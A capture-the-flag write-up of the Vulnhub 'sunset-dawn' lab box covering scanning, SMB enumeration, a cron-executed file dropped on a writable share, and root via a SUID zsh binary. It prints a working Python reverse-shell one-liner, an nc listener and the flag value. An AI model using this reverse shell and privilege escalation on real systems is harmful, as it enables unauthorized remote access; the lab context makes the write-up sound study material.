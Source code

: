 ```yaml
---
title: "Vulnhub: sunset-dawn"
layout: archive
date:   2020-12-29
tags: Vulnhub
tags_label: true
---
```

This is the second box in the sunset series. These boxes are great for beginners. This box has smb on it and it is always great to practice with smb.

### Scanning

Finding the machine on the network

```
Nmap scan report for 192.168.56.131
Host is up (0.000083s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

### More Scanning

Finding more details about running services

```
crazyeights@es-base:~$ nmap -A -p- 192.168.56.131
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-29 18:00 EST
Nmap scan report for 192.168.56.131
Host is up (0.00011s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
[SNIP]
Host script results:
|_clock-skew: mean: 1h39m58s, deviation: 2h53m12s, median: -1s
|_nbstat: NetBIOS name: DAWN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: dawn
|   NetBIOS computer name: DAWN\x00
|   Domain name: dawn
|   FQDN: dawn.dawn
[SNIP]
```

### Web:

Index Page:

![](/assets/images/dawn/d1.png)

#### Enumerating:

Using dirb to look for more files on the server:

```
crazyeights@es-base:~$ dirb http://192.168.56.131

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Dec 29 18:02:31 2020
URL_BASE: http://192.168.56.131/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.131/ ----
+ http://192.168.56.131/index.html (CODE:200|SIZE:791)                         
==> DIRECTORY: http://192.168.56.131/logs/                                     
+ http://192.168.56.131/server-status (CODE:403|SIZE:302)  
```

The directory logs seems promising.
    
![](/assets/images/dawn/d2.png)

* In management.log we find several usernames: dawn, ganimedes
    
*   We can also see that there is several cron jobs running.

*   The management log is the only one we have permission to access.

### SMB:

**List available shares:**

```
crazyeights@es-base:~$ smbclient -L \\dawn -I 192.168.56.131 -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	ITDEPT          Disk      PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.
	IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
SMB1 disabled -- no workgroup available
```

**Connect to the share ITDEPT:**

```
crazyeights@es-base:~$ smbclient \\\\dawn\\ITDEPT -I 192.168.56.131 -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Aug  2 23:23:20 2019
  ..                                  D        0  Fri Aug  2 23:21:39 2019

		7158264 blocks of size 1024. 3478908 blocks available
smb: \> exit
```

**Check if share is writeable:**

```
crazyeights@es-base:~$ smbmap -H 192.168.56.131 -s ITDEPT -d dawn
[+] IP: 192.168.56.131:445	Name: 192.168.56.131                                    
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	ITDEPT                                            	READ, WRITE	PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.9.5-Debian)
crazyeights@es-base:~$ 
```

Looking back to management.log we can see that the cronjob executed ITDEPT/product-control and wbe-control. We could try to create a script of that name and upload it to the writable share.

```
2020/12/29 18:02:01 [31;1mCMD: UID=1000 PID=859    | /bin/sh -c /home/dawn/ITDEPT/product-control [0m
2020/12/29 18:02:01 [31;1mCMD: UID=33   PID=858    | /bin/sh -c /home/dawn/ITDEPT/web-control [0m
```

Created a file product-control containing python reverse shell

```

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Started a listener

```
crazyeights@es-base:~$ nc -lvp 1234
    listening on [any] 1234 ...
```

Uploaded the file:

```
crazyeights@es-base:~$ smbclient \\\\dawn\\ITDEPT -I 192.168.56.131 -N
Try "help" to get a list of possible commands.
smb: \> put product-control
putting file product-control as \product-control (6.8 kb/s) (average 6.8 kb/s)
smb: \> 
```

*   Now have access as user dawn.

*   Look for commands the user can run with elevated privileges.

```
$ sudo -l
Matching Defaults entries for dawn on dawn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dawn may run the following commands on dawn:
    (root) NOPASSWD: /usr/bin/mysql
$   
```

*	Couldn't get this (mysql as root) to work.
    
*   Look for bins the user can run as effective root:
    

```
$ find / -perm -u=s 2>/dev/null
/usr/sbin/mount.cifs
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/zsh
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/chfn
/home/dawn/ITDEPT
```

*   Checking gtfo bins

*   zsh allows you to execute commands as a different effective user.

*   Use it to get the root flag:

```
$ zsh 
id
uid=1000(dawn) gid=1000(dawn) euid=0(root) groups=1000(dawn),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),115(lpadmin),116(scanner)
cd /root
ls
flag.txt
pspy64
cat flag.txt
Hello! whitecr0wz here. I would like to congratulate and thank you for finishing the ctf, however, there is another way of getting a shell(very similar though). Also, 4 other methods are available for rooting this box!

flag{3a3e52f0a6af0d6e36d7c1ced3a9fd59}
```

Feel like I missed something.

FIN.
